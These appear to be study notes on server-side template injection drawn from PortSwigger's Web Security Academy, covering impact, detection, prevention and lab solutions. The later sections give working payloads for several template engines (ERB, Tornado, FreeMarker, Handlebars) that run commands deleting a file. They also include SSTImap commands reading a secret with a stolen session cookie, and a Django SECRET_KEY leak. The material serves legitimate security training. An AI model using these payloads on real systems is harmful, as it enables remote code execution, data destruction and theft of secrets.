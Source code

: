 [Server-side template injection | Web Security Academy](https://portswigger.net/web-security/server-side-template-injection)

- ****What is server-side template injection?****
    
    Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
    
    Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection.
    
- ****What is the impact of server-side template injection?****
    
    Server-side template injection vulnerabilities arise when user input is concatenated into templates rather than being passed in as data.
    
    Static templates that simply provide placeholders into which dynamic content is rendered are generally not vulnerable to server-side template injection. The classic example is an email that greets each user by their name, such as the following extract from a Twig template:
    
    ```
    $output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
    ```
    
    This is not vulnerable to server-side template injection because the user's first name is merely passed into the template as data.
    
    However, as templates are simply strings, web developers sometimes directly concatenate user input into templates prior to rendering. Let's take a similar example to the one above, but this time, users are able to customize parts of the email before it is sent. For example, they might be able to choose the name that is used:
    
    ```
    $output = $twig->render("Dear " . $_GET['name']);
    ```
    
    In this example, instead of a static value being passed into the template, part of the template itself is being dynamically generated using the `GET` parameter `name`. As template syntax is evaluated server-side, this potentially allows an attacker to place a server-side template injection payload inside the `name` parameter as follows:
    
    ```
    <http://vulnerable-website.com/?name={{bad-stuff-here}>}
    ```
    
    Vulnerabilities like this are sometimes caused by accident due to poor template design by people unfamiliar with the security implications. Like in the example above, you may see different components, some of which contain user input, concatenated and embedded into a template. In some ways, this is similar to [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerabilities occurring in poorly written prepared statements.
    
    However, sometimes this behavior is actually implemented intentionally. For example, some websites deliberately allow certain privileged users, such as content editors, to edit or submit custom templates by design. This clearly poses a huge security risk if an attacker is able to compromise an account with such privileges.
    
- W**ork flow**
    
    ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/29ca1d59-f65b-458e-87af-7256836e7162/Untitled.png)
    
    ****Detect****
    
    try fuzzing the template by injecting a sequence of special characters commonly used in template expressions, such as `${{<%[%'"}}%\\`
    
    ****Identify****
    
    ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1f30bf8a-bf14-4d1e-9fb0-14f3e00cdadf/Untitled.png)
    
    ****Exploit****
    
    [https://portswigger.net/web-security/server-side-template-injection/exploiting](https://portswigger.net/web-security/server-side-template-injection/exploiting)
    
- ****How to prevent server-side template injection vulnerabilities****
    
    The best way to prevent server-side template injection is to not allow any users to modify or submit new templates. However, this is sometimes unavoidable due to business requirements.
    
    One of the simplest ways to avoid introducing server-side template injection vulnerabilities is to always use a "logic-less" template engine, such as Mustache, unless absolutely necessary. Separating the logic from presentation as much as possible can greatly reduce your exposure to the most dangerous template-based attacks.
    
    Another measure is to only execute users' code in a sandboxed environment where potentially dangerous modules and functions have been removed altogether. Unfortunately, sandboxing untrusted code is inherently difficult and prone to bypasses.
    
    Finally, another complementary approach is to accept that arbitrary code execution is all but inevitable and apply your own sandboxing by deploying your template environment in a locked-down Docker container, for example
    
- **SSTI Identified Using `SSTImap`**
    
    > SSTI can be identified using the tool `SSTImap`. The limitations of this tool is that the template expression `{{7*7}}` results are sometimes only evaluated by another `GET request` or calling another function in the application, as the output is not directly reflected or echoed into the response where the template expression was posted.
    
    ```xml
    python /opt/SSTImap/sstimap.py --engine erb -u <https://TARGET.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock> --os-cmd "cat /home/carlos/secret"
    ```
    
    > POST request with the data `param` to test and send payload using `SSTImap` tool.
    
    ```xml
    python /opt/SSTImap/sstimap.py -u <https://TARGET.net/product/template?productId=1> --cookie 'session=StolenUserCookie' --method POST --marker fuzzer --data 'csrf=ValidCSRFToken&template=fuzzer&template-action=preview' --engine Freemarker --os-cmd 'cat /home/carlos/secret'
    ```
    
    ![https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/sstimap.png](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/sstimap.png)
    
- **SSTI payloads to manually identify vulnerability. →** [Security-Hub/ssti.txt at main · M8SZT8/Security-Hub (github.com)](https://github.com/M8SZT8/Security-Hub/blob/main/Fuzzing%20Lists/ssti.txt)
    
    ```xml
    ${{<%[%'"}}%\\.,
    }}{{7*7}} 
    
    {{fuzzer}}
    ${fuzzer}
    ${{fuzzer}}
    
    ${7*7}
    <%= 7*7 %>
    ${{7*7}}
    #{7*7}
    ${foobar}
    
    {% debug %}
    ```
    
- **Exploit**
    
    - **Construct a payload to delete Carlos's file**
        
        `<%= system("rm /home/carlos/morale.txt") %>`
        
    - **[Basic server-side template injection (code context)](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic-code-context)**
        
        ```xml
        blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
        ```
        
    - **[Server-side template injection using documentation](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation)**
        
        ```xml
        <#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /home/carlos/morale.txt") }
        ```
        
    - **[Server-side template injection in an unknown language with a documented exploit](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit)**
        
        ```xml
        <https://YOUR-LAB-ID.web-security-academy.net/?message=wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d>
        ```
        
    - **[Server-side template injection with information disclosure via user-supplied objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)**
        
        ```xml
        {% debug %}
        {{settings.SECRET_KEY}}
        ```
-  Exploit 
- ssti to rce
https://medium.com/r3d-buck3t/rce-with-server-side-template-injection-b9c5959ad31e
